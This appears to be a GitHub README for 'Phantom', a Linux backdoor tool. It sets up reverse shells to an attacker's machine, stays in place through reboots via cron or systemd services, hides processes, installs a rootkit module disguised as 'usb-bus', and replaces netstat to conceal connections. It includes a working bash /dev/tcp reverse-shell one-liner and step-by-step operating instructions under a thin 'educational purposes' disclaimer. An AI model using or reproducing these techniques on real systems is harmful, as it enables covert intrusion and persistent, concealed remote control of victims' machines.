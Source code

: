 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat. It only works on
Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

```
phantom-init  [ip=][port1=][port2=]
```
* ip: the attacker's ip (e.g. ip=127.0.0.1)
* port1: the port that listens for connections to deliver the payload (e.g. port1=8888)
* port2: the port that listens for the backdoor shells after delivering the payload (e.g. port2=9999)

You have to somehow make the target execute this code, so that he connects to the 1st-port:  
**bash -c 'bash &>/dev/tcp/ip/port1 0>&1 &'**  
ip and 1st-port are the ones specified above.

## Files

* phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

* payload: This is the file that gets executed when the target connects to the listening ncat port1. It does the following:
* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
  backdoor shell to the port2.
* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
  create a backdoor bash shell to your machine (port2). It also creates a systemd service which executes a script,
  hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
  creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
  and the systemd services themselves. It is also persistent through reboots because the second systemd service
  (the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote connections to the specified ip and port2.

* phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
  1.  Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
  1.  Execute phantom-firewall as root, so it can modify the firewall rules.
  2.  Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.  Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2.  Close the ncat listening process so all the connections get closed with it.
3.  Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
    This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
    block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com
